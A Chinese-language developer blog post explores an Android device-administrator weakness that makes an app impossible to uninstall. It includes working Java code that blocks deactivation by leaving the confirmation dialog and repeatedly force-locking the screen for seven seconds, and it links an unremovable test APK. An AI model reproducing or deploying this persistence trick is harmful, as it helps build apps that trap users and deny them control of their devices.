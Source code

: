 ```yaml
---
layout: post
title: "无法卸载的 App - 设备管理器漏洞"
tags: [Android,设备管理器,DeviceAdminReceiver, zh-CN]
---
```

前两天某朋友发现手机有个app无法卸载，后知其因设备管理器激活导致，遂去尝试取消，但却在取消那刻卡机。反复折腾之后，只能重刷。后来他发了一篇关于设备管理器bug的文章给我，便有了如下一番折腾。

##**尝鲜**

文章[《Android 学习 设备管理器勾选后不能再取消了》](http://androidmaster.iteye.com/blog/2035381)（作者：带个回家）大致意思是：
> 继承 DeviceAdminReceiver 重写 onDisableRequested(Context context, Intent intent) 即可达到目的。

<!-- more -->

```java
@Override
public CharSequence onDisableRequested(Context context, Intent intent) {
    // 这里处理 不可编辑设备。
    Intent intent2 = new Intent(context, NoticeSetting.class);
    intent2.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
    context.startActivity(intent2);
    context.stopService(intent);// 是否可以停止
    return ""; // "这是一个可选的消息，警告有关禁止用户的请求";
    }

```

在此之前，我并没有接触过设备管理器的功能，参考了 API Guides 的 [Device Administration](http://developer.android.com/guide/topics/admin/device-admin.html) ，以及 [DeviceAdminReceiver](http://developer.android.com/reference/android/app/admin/DeviceAdminReceiver.html) 的 API 后，试着写了一个跟上述文章一样的 app，**4.4 & 5.0均测试失败，可以正常取消激活**。

##**再战**

搜索，找到[《Android设备管理器漏洞》](http://blog.csdn.net/androidsecurity/article/details/9124747)（作者：Jack_Jia）另一篇讲解此问题的文章。文章提到：
> 如果想在设备管理器列表中”隐身“，只要不注册 `android.app.action.DEVICE_ADMIN_ENABLED` 广播就行。

也就是不给 `intent-filter` 标签设置该 action。

```xml
<receiver
    android:name=".MyDeviceReceiver"
    android:description="@string/receiver_description"
    android:label="@string/app_name"
    android:permission="android.permission.BIND_DEVICE_ADMIN">

    <meta-data
        android:name="android.app.device_admin"
        android:resource="@xml/device_manager_policies" />

    <intent-filter>
    
    </intent-filter>

</receiver>
```

**4.4 & 5.0测试失败，设备管理器无法激活（代码激活不会弹出，设备管理器又找不到）。**

##**三战**

继续搜索，发现百度安全实验室一篇文章[《Android设备管理器漏洞2》](http://safe.baidu.com/2014-10/deviceadminexploit2.html)。文章提到：

> 已激活设备管理器权限的手机木马利用该漏洞，可以在设置程序的设备管理器列表中隐藏，这样用户就无法通过正常途径取消该手机木马的设备管理器权限，从而达到无法卸载的目的。Android4.2版本以上系统已经修复该漏洞。
> 
>...
>
>通过调用stopAppSwitch()方法，系统保证在进入取消设备管理器界面后，**5秒内不会进行Activity的切换。**
>
>...
>
>onDisableRequested函数满足以下条件即可：
>
1、返回内容不能为空，这样才可以使设备管理器弹出取消激活设备管理器警示信息 Dialog。
>
2、通过Activity切换的方式使设备管理器弹出的警示信息Dialog消失。使用户无法操作Dialog。
如果做到以上两点，程序即可成功阻止用户取消激活设备管理器操作。


故，只要在 onDisableRequested 方法中，让用户在取消激活时5s内无法操作界面，然后采取 Activity 切换的方法即可绕开取消激活的步骤。这里为了测试直观并且试一试设备管理器的 api，采用了百度提供的连续锁屏法。测试环境为5.0。

```java
public CharSequence onDisableRequested(Context context, Intent intent) {                                            
                                                                                                                    
    //跳离当前询问是否取消激活的 dialog                                                                                          
    Intent outOfDialog = context.getPackageManager().getLaunchIntentForPackage("com.android.settings");             
    outOfDialog.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);                                                            
    context.startActivity(outOfDialog);                                                                             
                                                                                                                    
    //调用设备管理器本身的功能，每 100ms 锁屏一次，用户即便解锁也会立即被锁，直至 7s 后                                                                
    final DevicePolicyManager dpm = (DevicePolicyManager) context.getSystemService(Context.DEVICE_POLICY_SERVICE);  
    dpm.lockNow();                                                                                                  
    new Thread(new Runnable() {                                                                                     
        @Override                                                                                                   
        public void run() {                                                                                         
            int i = 0;                                                                                              
            while (i < 70) {                                                                                        
                dpm.lockNow();                                                                                      
                try {                                                                                               
                    Thread.sleep(100);                                                                              
                    i++;                                                                                            
                } catch (InterruptedException e) {                                                                  
                    e.printStackTrace();                                                                            
                }                                                                                                   
            }                                                                                                       
        }                                                                                                           
    }).start();                                                                                                     
                                                                                                                    
    return "";                                                                                                      
}                                                                                                                   
```

1. 安装后打开直接跳转激活界面：
![安装后打开直接跳转激活界面](http://2bab-images.lastmayday.com/blog/2015-02-09-app-cannot-be-uninstalled-1.jpeg?imageslim)


2. 一旦激活则无法正常卸载
![一旦激活则无法正常卸载](http://2bab-images.lastmayday.com/blog/2015-02-09-app-cannot-be-uninstalled-2.jpeg?imageslim)

3. 进入设备管理器界面
![进入设备管理器界面](http://2bab-images.lastmayday.com/blog/2015-02-09-app-cannot-be-uninstalled-3.jpeg?imageslim)

4. 尝试取消激活
![尝试取消激活](http://2bab-images.lastmayday.com/blog/2015-02-09-app-cannot-be-uninstalled-4.jpeg?imageslim)

5. 强制进入锁屏
![强制进入锁屏](http://2bab-images.lastmayday.com/blog/2015-02-09-app-cannot-be-uninstalled-5.jpeg?imageslim)

至此，用户用普通方法无法卸载该app。测试使用某数字软件可以卸载，具体步骤：在数字软件的软件卸载功能中卸载Trick，此时提示取消激活，跳转到设备管理器界面取消激活，引发锁屏，强制锁屏7s结束后，切回数字软件，你会发现出现了取消激活的dialog，点击取消成功。

而文章开头提到的流氓软件，实则是跳转到一个所有按钮无效的自定义全屏界面（不是我这样跳到设置界面），使用数字软件无法解决问题。

##**总结**

日后看到设备管理器激活申请定要小心三分，本文提及内容请勿不正当使用。

##**相关下载**

- [源码Gist](https://gist.github.com/2BAB/786513de79b7bfd82c3f)
- [测试APK](http://engineering-blog-2bab.qiniudn.com/DeviceAdmin-DeviceAdminTrick.apk)，安装后激活则无法卸载。
- [恢复APK](http://engineering-blog-2bab.qiniudn.com/DeviceAdmin-recovery.apk)，覆盖安装后可顺利取消激活。

